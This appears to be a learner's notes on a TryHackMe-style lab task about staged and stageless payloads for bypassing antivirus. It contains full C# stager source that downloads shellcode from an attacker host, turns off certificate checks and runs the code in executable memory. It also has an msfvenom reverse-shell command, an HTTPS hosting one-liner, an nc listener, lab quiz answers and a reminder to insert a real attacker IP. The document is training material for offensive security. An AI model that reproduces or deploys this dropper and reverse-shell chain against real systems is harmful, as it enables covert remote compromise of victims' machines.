



# Task 6 Staged Payloads

Task 6 Staged Payloads

In our goal to bypass the AV, we will find two main approaches to delivering the final shellcode to a victim. Depending on the method, you will find payloads are usually categorized as **staged** or **stageless** payloads. In this task, we will look at the differences in both approaches and the advantages of each method.

# Stageless Payloads

A stageless payload embeds the final shellcode directly into itself. Think of it as a packaged app that executes the shellcode in a single-step process. In previous tasks, we embedded an executable that embedded a simple **`calc`** shellcode, making a stageless payload.



In the example above, when the user executes the malicious payload, the embedded shellcode will run, providing a reverse shell to the attacker.

# Staged Payloads

Staged payloads work by using intermediary shellcodes that act as steps leading to the execution of a final shellcode. Each of these intermediary shellcodes is known as a **stager**, and its primary goal is to provide a means to retrieve the final shellcode and execute it eventually.

While there might be payloads with several stages, the usual case involves having a two-stage payload where the first stage, which we'll call **stage0**, is a stub shellcode that will connect back to the attacker's machine to download the final shellcode to be executed.



Once retrieved, the stage0 stub will inject the final shellcode somewhere in the memory of the payload's process and execute it (as shown below).



# Staged vs. Stageless

When deciding which type of payload to use, we must be aware of the environment we'll be attacking. Each payload type has advantages and disadvantages depending on the specific attack scenario.

In the case of stageless payloads, you will find the following advantages:

- The resulting executable packs all that is needed to get our shellcode working.
- The payload will execute without requiring additional network connections. The fewer the network interactions, the lesser your chances of being detected by an IPS.
- If you are attacking a host with very restricted network connectivity, you may want your whole payload to be in a single package.

For staged payloads, you will have:

- Small footprint on disk. Since stage0 is only in charge of downloading the final shellcode, it will most likely be small in size.
- The final shellcode isn't embedded into the executable. If your payload is captured, the Blue Team will only have access to the stage0 stub and nothing more.
- The final shellcode is loaded in memory and never touches the disk. This makes it less prone to be detected by AV solutions.
- You can reuse the same stage0 dropper for many shellcodes, as you can simply replace the final shellcode that gets served to the victim machine.

In conclusion, we can't say that either type is better than the other unless we add some context to it. In general, stageless payloads are better suited for networks with lots of perimeter security, as it doesn't rely on having to download the final shellcode from the Internet. If, for example, you are performing a USB Drop Attack to target computers in a closed network environment where you know you won't get a connection back to your machine, stageless is the way to go.

Staged payloads, on the other hand, are great when you want your footprint on the local machine to be reduced to a minimum. Since they execute the final payload in memory, some AV solutions might find it harder to detect them. They are also great for avoiding exposing your shellcodes (which usually take considerable time to prepare), as the shellcode isn't dropped into the victim's disk at any point (as an artifact).

# Stagers in Metasploit

When creating payloads with msfvenom or using them directly in Metasploit, you can choose to use either staged or stageless payloads. As an example, if you want to generate a reverse TCP shell, you will find two payloads exist for that purpose with slightly different names (notice the **`_`** versus **`/`** after **`shell`**):

| Payload | Type |
| --- | --- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp | Staged payload |

You will generally find that the same name patterns are applied to other types of shells. To use a stageless Meterpreter, for example, we would use the **`windows/x64/meterpreter_reverse_tcp`**, rather than **`windows/x64/meterpreter/reverse_tcp`**, which works as its staged counterpart.

# Creating Your Own Stager

To create a staged payload, we will use a slightly modified version of the stager code provided by [@mvelazc0](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs). The full code of our stager can be obtained here, but is also available in your Windows machine at **`C:\Tools\CS Files\StagedPayload.cs`**:

*Full Payload Code (Click to read)*

```bash
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

The code may look intimidating at first but is relatively straightforward. Let's analyze what it does step by step.

The first part of the code will import some Windows API functions via P/Invoke. The functions we need are the following three from **`kernel32.dll`**:

| WinAPI Function | Description |
| --- | --- |
| https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc | Allows us to reserve some memory to be used by our shellcode. |
| https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread | Creates a thread as part of the current process. |
| https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject | Used for thread synchronization. It allows us to wait for a thread to finish before continuing. |

The part of the code in charge of importing these functions is the following:

```csharp
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

The most significant part of our code will be in the **`Stager()`** function, where the stager logic will be implemented. The Stager function will receive a URL from where the shellcode to be executed will be downloaded.

The first part of the **`Stager()`** function will create a new **`WebClient()`** object that allows us to download the shellcode using web requests. Before making the actual request, we will overwrite the **`ServerCertificateValidationCallback`** method in charge of validating SSL certificates when using HTTPS requests so that the WebClient doesn't complain about self-signed or invalid certificates, which we will be using in the web server hosting the payloads. After that, we will call the **`DownloadData()`** method to download the shellcode from the given URL and store it into the **`shellcode`** variable:

```csharp
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Once our shellcode is downloaded and available in the **`shellcode`** variable, we'll need to copy it into executable memory before actually running it. We use **`VirtualAlloc()`** to request a memory block from the operating system. Notice that we request enough memory to allocate **`shellcode.Length`** bytes, and set the **`PAGE_EXECUTE_READWRITE`** flag, making the assigned memory executable, readable and writable. Once our executable memory block is reserved and assigned to the **`codeAddr`** variable, we use **`Marshal.Copy()`** to copy the contents of the **`shellcode`** variable in the **`codeAddr`** variable.

```csharp
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Now that we have a copy of the shellcode allocated in a block of executable memory, we use the **`CreateThread()`** function to spawn a new thread on the current process that will execute our shellcode. The third parameter passed to CreateThread points to **`codeAddr`**, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode as if it were a regular function. The fifth parameter is set to 0, meaning the thread will start immediately.

Once the thread has been created, we will call the **`WaitForSingleObject()`** function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute:

```csharp
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

To compile the code, we suggest copying it into a Windows machine as a file called staged-payload.cs and compiling it with the following command:

PowerShell

```
PS C:\> csc staged-payload.cs
```

# Using our stager to run a reverse shell

Once our payload is compiled, we will need to set up a web server to host the final shellcode. Remember that our stager will connect to this server to retrieve the shellcode and execute it in the victim machine in-memory. Let's start by generating a shellcode (the name of the file needs to match the URL in our stager):

AttackBox

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d
```

Notice that we are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.

Now that we have a shellcode, let's set up a simple HTTPS server. First, we will need to create a self-signed certificate with the following command:

AttackBox

```
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

```bash
 openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

You will be asked for some information, but feel free to press enter for any requested information, as we don't need the SSL certificate to be valid. Once we have an SSL certificate, we can spawn a simple HTTPS server using python3 with the following command:

AttackBox

```
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

```bash
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

With all of this ready, we can now execute our stager payload. The stager should connect to the HTTPS server and retrieve the shellcode.bin file to load it into memory and run it on the victim machine. Remember to set up an nc listener to receive the reverse shell on the same port specified when running msfvenom:

AttackBox:

```bash
nc -lvp 7474
```

Answer the questions below

Do staged payloads deliver the full content of our payload in a single package? (yea/nay)

nay

Is the Metasploit payload **`windows/x64/meterpreter_reverse_https`** a staged payload? (yea/nay)

nay

Is the stage0 of a staged payload in charge of downloading the final payload to be executed? (yea/nay)

yay

Follow the instructions to create a staged payload and upload it into the THM Antivirus Check at **`http://10.10.189.219/`**

Complete

NAN

[Encrypter.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/Encrypter%20cs%20e6323071d156446e99ec07f3698d523f.md)

[EncStageless.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/EncStageless%20cs%20fc0af1e659aa42c68d5a6d688d3f30b4.md)

[StagedPayload.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/StagedPayload%20cs%205ddc071e9cc44f538c41e53028f2ba2a.md)

[UnEncStagelessPayload.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/UnEncStagelessPayload%20cs%202531970f9a4e42648a7c2fa50daab2f8.md)

example:

[ST_stagedPayload.cs](Task%206%20Staged%20Payloads%204dd48ff43a2b4d5b9bb1267eb3bed0b0/ST_stagedPayload%20cs%201618c7a0137c411aae42c73d61a863cc.md)

change the “attacker IP” to the real IP address!!!
